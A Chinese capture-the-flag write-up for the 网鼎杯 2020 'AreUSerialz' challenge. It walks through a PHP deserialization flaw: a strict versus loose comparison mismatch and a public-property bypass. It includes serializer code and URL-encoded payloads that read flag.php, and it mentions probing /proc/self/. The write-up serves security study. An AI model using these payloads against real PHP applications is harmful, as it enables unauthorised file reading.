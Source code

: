 # \[网鼎杯 2020 青龙组]AreUSerialz

## \[网鼎杯 2020 青龙组]AreUSerialz

## 考点

* 逻辑漏洞，两次比较方式不一样，一个强比较一个弱比较
* PHP在7.1版本以上属性类型不敏感，在序列化时候把属性改为`public`就可以绕过
* 在`__destruct()`中读取文件用绝对路径

## wp

给了代码，先看入口

```php
function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }
}
```

传入参数`str`，使用`is_valid()`判断是否满足条件，满足条件就对它反序列化。条件是`str`中字符的范围要在`[32, 125]`内。

然后再看给的`FileHandler`类，从`__destruct()`开始，然后对属性值做改变，最后执行`process()`函数

```php
function __destruct() {
    if($this->op === "2")
        $this->op = "1";
    $this->content = "";
    $this->process();
}
```

然后看`process()`函数，其中又调用了`write()`，`read()`和`output()`函数

```php
private function write() {
	if(isset($this->filename) && isset($this->content)) {
		if(strlen((string)$this->content) > 100) {
			$this->output("Too long!");
			die();
		}
		$res = file_put_contents($this->filename, $this->content);
		if($res) $this->output("Successful!");
		else $this->output("Failed!");
	} else {
            $this->output("Failed!");
	}
}
private function read() {
	$res = "";
	if(isset($this->filename)) {
		$res = file_get_contents($this->filename);
	}
	return $res;
}
private function output($s) {
	echo "[Result]: <br>";
	echo $s;
}
```

`write()`函数向`$this->filename`中写入`$this->content`，

`read()`函数读取`$this->filename`

`output()`函数输出字符串

再看`process()`函数，如果`$this->op`是`1`，就是写入文件，`$this->op`是`2`就是读取文件并输出，否则就输出`Bad Hacker`

```php
public function process() {
	if($this->op == "1") {
		$this->write();
	} else if($this->op == "2") {
		$res = $this->read();
		$this->output($res);
	} else {
		$this->output("Bad Hacker!");
	}
}
```

在`__destruct()`中`$this->op`的判断使用的`==="2"`强等于，而在`process()`中`$this->op`的判断使用的`=="2"`弱等于，可以使用`int`型的`2`绕过

```php
<?php
class FileHandler{

    protected $op = 2;
    protected $filename = 'flag.php';
    protected $content = '1';
}
echo urlencode(serialize(new FileHandler()));
```

得到结果如下，但是`protected`属性在序列化时会加上`%00`，这不符合输入要求。<mark style="background-color:orange;">PHP在7.1版本以上属性类型不敏感，在序列化时候把属性改为</mark><mark style="background-color:orange;">`public`</mark><mark style="background-color:orange;">就可以绕过</mark>。

```
O%3A11%3A%22FileHandler%22%3A3%3A%7Bs%3A5%3A%22%00%2A%00op%22%3Bi%3A2%3Bs%3A11%3A%22%00%2A%00filename%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A10%3A%22%00%2A%00content%22%3Bs%3A1%3A%221%22%3B%7D
```

```php
<?php
class FileHandler{

    public $op = 2;
    public $filename = 'flag.php';
    public $content = '1';
}
echo urlencode(serialize(new FileHandler()));
```

```
O%3A11%3A%22FileHandler%22%3A3%3A%7Bs%3A2%3A%22op%22%3Bi%3A2%3Bs%3A8%3A%22filename%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A7%3A%22content%22%3Bs%3A1%3A%221%22%3B%7D
```

F12可以看到flag，原题是先读取`/proc/self/`目录找到配置文件，再去读flag，注意是用绝对路径。

## 小结

1. 细节很重要
